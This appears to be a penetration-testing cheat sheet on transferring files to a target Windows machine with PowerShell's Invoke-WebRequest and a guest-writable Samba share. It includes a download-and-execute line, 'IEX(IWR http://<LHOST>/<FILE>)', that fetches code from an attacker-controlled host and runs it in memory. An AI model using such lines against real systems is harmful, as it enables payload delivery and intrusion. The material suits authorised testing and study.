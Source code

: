 ## File Transfer using PowerShell
PowerShell’s Invoke-WebRequest is another option for downloading files on Windows, useful for HTTP-based transfers.

Start a Python HTTP server on the source machine.

On the target Windows machine, use:

```
Invoke-WebRequest -Uri http://192.168.1.100:8080/file.txt -OutFile C:\Users\Public\file.txt
```
Or 
```
iwr <LHOST>/<FILE> -o <FILE>
IEX(IWR http://<LHOST>/<FILE>) -UseBasicParsing
powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\temp\\<FILE>
```

## File Transfer using SMB Server (Linux to Windows)
SMB (Server Message Block) is a network file-sharing protocol, and Linux machines can act as SMB servers using Samba.

### On Linux (Setting up the SMB Server):

Install Samba:

```
sudo apt-get install samba
```

Configure the smb.conf file to share a directory:

```
[share]
path = /path/to/share
browsable = yes
writable = yes
guest ok = yes
```

Restart Samba:

```
sudo systemctl restart smbd
```

### On Windows (Accessing the SMB Share):

Open PowerShell and map the SMB share:

```
net use Z: \\192.168.1.100\share /user:guest
```
Navigate to Z: and copy the file to your destination folder:

```
copy Z:\file.txt C:\Users\Public\file.txt
```
